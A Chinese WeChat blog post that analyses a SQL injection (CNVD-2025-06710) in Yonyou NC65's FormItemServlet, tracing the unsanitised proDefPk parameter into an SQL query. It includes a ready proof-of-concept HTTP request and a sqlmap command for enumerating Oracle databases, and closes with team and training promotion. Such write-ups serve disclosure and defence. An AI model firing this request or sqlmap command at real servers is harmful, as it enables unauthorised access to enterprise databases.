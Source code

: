 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzkzMzE5OTQzMA==&mid=2247487568&idx=1&sn=62f811d92aedb814bb4509ba9bd3abb3

#  用友NC最新SQL注入 | CNVD-2025-06710漏洞分析  
原创 chobits02  C4安全   2025-07-08 08:05  
  
## 前言  
  
漏洞影响版本：用友NC65  
  
CNVD已知漏洞编号是重复时候给的编号，提交的稍微有些晚就重复了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTmRntVbgxfyzEMQfkfTlrax2y09zEsoCepywXvcv0cb7HAklwZTWfFhY5CicnygvV0oTbMVH6Y8vA/640?wx_fmt=png&from=appmsg "")  
  
不过该漏洞代码比较老，猜测现在才有人挖出来是因为代码里面有加载子类的方法，一般师傅可能觉得绕不过就放弃了，我直接照搬一下自己的漏洞分析文章：  
  
https://forum.butian.net/article/750  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/EXTCGqBpVJQbVxo0a4zRoVkIFaz2cKA5ib3aFe4hhtP7M1fg56N1OZyaxT5rh0EWanI3cO7VYruqSmYovEc9U6A/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
## 漏洞分析  
  
漏洞所在方法为FormItemServlet，利用POC如下  

```
POST /portal/pt/servlet/getFormItem/doPost?pageId=login&clazz=nc.uap.wfm.vo.base.ProDefBaseVO&proDefPk=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 19
```

  

```
下面是漏洞分析，进入到FormItemServlet
```

  
接口处，方法的完整路径为
```
nc.uap.wfm.action.FormItemServlet
```

  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTmRntVbgxfyzEMQfkfTlra09k6dMlibQpIXXPUh79WRz5OJc3mdkD6wIxbbe9qsBdnej3Bra5xmpw/640?wx_fmt=png&from=appmsg "")  
  
该方法的请求路径为前缀+
```
/servlet/getFormItem/
```

  
+对应方法名称  
  
来到doPost方法，完整的代码如下  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTmRntVbgxfyzEMQfkfTlrayfMetEBscyLLABBnsQx6Vt7pcZia6ic7nMreL29nSde84H030RJEPJ0g/640?wx_fmt=png&from=appmsg "")  

```
@Action(method = &#34;POST&#34;)  
publicvoid doPost() {  
this.response.setCharacterEncoding(&#34;utf-8&#34;);  
this.response.setContentType(&#34;text/html&#34;);  
Writer out = null;  
out = new StringWriter();  
String clazz = this.request.getParameter(&#34;clazz&#34;);  
String pk_prodef = this.request.getParameter(&#34;proDefPk&#34;);  
Map<String, String> map = new HashMap<>();  
if (!StringUtils.isEmpty(clazz)) {  
  SuperVO formvo = (SuperVO)LfwClassUtil.newInstance(clazz);  
  IWfmFlwTypeQry service = (IWfmFlwTypeQry)NCLocator.getInstance().lookup(IWfmFlwTypeQry.class);  
  WfmFlwTypeVO flwtypevo = service.getFlwTypeVosByProdefPk(pk_prodef);  
if (flwtypevo != null) {  
String serverClass = flwtypevo.getServerclass();  
    IWfmFormOper formOper = (IWfmFormOper)WfmClassUtil.loadClass(serverClass);  
    map = formOper.getFormFields(formvo, pk_prodef);  
  }   
}   
Document doc = buildXml(map);  
XMLUtil.printDOMTree(out, doc, 0, &#34;UTF-8&#34;);  
print(out.toString());  
}

```

  
可以看到此处post方法接收了两个参数，一个是
```
clazz
```

  
，传入了方法中通过反射加载
```
SuperVO
```

  
类或是他的子类，所以他应该传的是完整的类路径  

```
SuperVO formvo = (SuperVO)LfwClassUtil.newInstance(clazz);  

```

  
另外一个传参是
```
proDefPk
```

  
，在上一步类加载完成后，进入了
```
WfmFlwTypeQry
```

  
的
```
getFlwTypeVosByProdefPk
```

  
方法中  

```
IWfmFlwTypeQry service = (IWfmFlwTypeQry)NCLocator.getInstance().lookup(IWfmFlwTypeQry.class);  
WfmFlwTypeVO flwtypevo = service.getFlwTypeVosByProdefPk(pk_prodef);  

```

  
追踪getFlwTypeVosByProdefPk方法，来到代码  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTmRntVbgxfyzEMQfkfTlraicNx5lEScxABibQnKY1VaEFb8oBgTVrkdT7DmibI2KPUwfg88vSegjrRA/640?wx_fmt=png&from=appmsg "")  
  
可以看到参数被拼接到SQL语句中，造成SQL注入  

```
String sql = &#34; select * from wfm_flwtype where pk_flwtype in(select flwtype from wfm_prodef where pk_prodef='&#34; + prodefPk + &#34;')&#34;;

```

  
好了分析到这已经差不多了，只要找一个
```
SuperVO
```

  
的子类让他正常加载走到SQL注入那一步就行了  
  
全局搜索
```
SuperVO
```

  
，这里我挑了一个子类
```
ProDefBaseVO
```

  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTmRntVbgxfyzEMQfkfTlraiaGA9t6L4rzuic9mIYHGnUEoDuxy1J7r4n0MFLHx3AQcodcqd6ib2Y6bA/640?wx_fmt=png&from=appmsg "")  
  
完整路径是
```
nc.uap.wfm.vo.base.ProDefBaseVO
```

  
，下一步构造传参，丢给SQLMAP验证即可  

```
POST /portal/pt/servlet/getFormItem/doPost?pageId=login&clazz=nc.uap.wfm.vo.base.ProDefBaseVO&proDefPk=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 19

```

  
S  
QLMAP命令如下，指定数据库为Oracle  

```
python sqlmap.py -r 数据包 --dbms=oracle --dbs -p proDefPk

```

  
注入验证  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTmRntVbgxfyzEMQfkfTlra67naERDqgn8DgsQqjPocp0Y4t2j2meFuUy2LRIxCmQKSXR8ITaSySQ/640?wx_fmt=png&from=appmsg "")  
  
最后总结  
  
感兴趣的可以公众号私聊我  
进团队交流群，  
咨询问题，hvv简历投递，nisp和cisp考证都可以联系我  
  
**内部src培训视频，内部知识圈，可私聊领取优惠券**  
  
**加入团队、加入公开群等都可联系微信：yukikhq，搜索添加即可。**  
  
****  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/EXTCGqBpVJQSCTuiawtOw7G9JFaBeBc06sHdBhSTMMClOr5wLWmLYIl6Yry9n3ZIL97tylQib5YLOuJFxndeFMEg/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
END  
###   
  
